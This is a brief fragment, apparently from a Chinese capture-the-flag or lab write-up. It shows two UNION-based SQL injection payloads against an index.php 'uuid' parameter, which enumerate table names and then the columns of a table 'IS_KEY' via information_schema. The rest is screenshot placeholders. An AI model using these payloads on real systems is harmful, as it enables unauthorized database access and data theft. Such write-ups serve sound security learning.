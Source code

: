 注表名`index.php?uuid=1' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='2web' -%23-%20`
![upload successful](/images/pasted-795.png)

注字段名`index.php?uuid=1' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='2web' and table_name='IS_KEY' -%23-%20`
![upload successful](/images/pasted-797.png)
